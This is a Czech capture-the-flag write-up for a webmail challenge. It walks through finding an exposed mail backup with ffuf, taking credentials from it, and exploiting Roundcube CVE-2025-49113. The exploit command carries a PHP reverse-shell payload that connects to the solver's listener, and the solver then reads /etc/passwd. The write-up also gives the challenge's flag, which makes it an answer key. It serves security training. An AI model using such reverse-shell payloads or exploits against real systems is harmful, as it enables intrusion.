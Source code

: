 # Temporary webmail (3)

## Zadání

Hi, emergency troubleshooter,

the e-mail administrator, Bob, was tasked with hastily setting up a new webmail server for temporary access to old e-mails. Verify whether the server is properly secured (you know how it usually goes with temporary services).

Stay grounded!

* Webmail runs on server `webmail.powergrid.tcc`.

## Nápovědy (Hints)

1. IT department is known for using disposable test accounts `ADM40090`, `ADM40091`, `ADM40092` up to `ADM40099`.

## Řešení

Webová stránka serveru ze zadání zobrazí přihlašovací dialog a informaci o tom, že technologie Webmail serveru je Roundcube.

Použitá verze Roundcube obsahuje chybu CVE-2025-49113 umožňující přihlášenému uživateli vzdálené spuštění kódu. Je možné použít exploit

<https://github.com/hakaioffsec/CVE-2025-49113-exploit>

Potřebujeme ale získat přihlašovací údaje. Podíváme se, jestli nejsou na serveru nějaké zajímavé adresáře.

`ffuf -u http://webmail.powergrid.tcc/FUZZ -w /usr/share/dirb/wordlists/common.txt`

```text
backup                  [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 7ms]
index.php               [Status: 200, Size: 5327, Words: 366, Lines: 97, Duration: 14ms]
plugins                 [Status: 301, Size: 332, Words: 20, Lines: 10, Duration: 10ms]
program                 [Status: 301, Size: 332, Words: 20, Lines: 10, Duration: 14ms]
skins                   [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 8ms]
```

Zajímavý je adresář `http://webmail.powergrid.tcc/backup/`, který obsahuje soubor `maildir-20150507.tgz` se zálohou mail adresářů.

V souboru `maildir\dorland-c\discussion_threads\175.` je pak informace o uživateli `ADM40092` a hesle `WELCOME6`.

Na vlastním PC spustíme poslouchání na portu 4444.

`nc -vlnp 4444`

a spustíme exploit

`php CVE-2025-49113.php http://webmail.powergrid.tcc ADM40092 WELCOME6 'php -r '\'' $sock=fsockopen("10.200.0.91",4444);exec("sh <&3 >&3 2>&3");'\''' `

Hledaný FLAG se skrývá v `/etc/passwd`.

```text
flag:x:65535:65535:RkxBR3tXbThuLXQ1cWUteEhueS1nNEdPfQ==:/nonexistent:/usr/sbin/nologin
```

## Flag

`FLAG{Wm8n-t5qe-xHny-g4GO}`

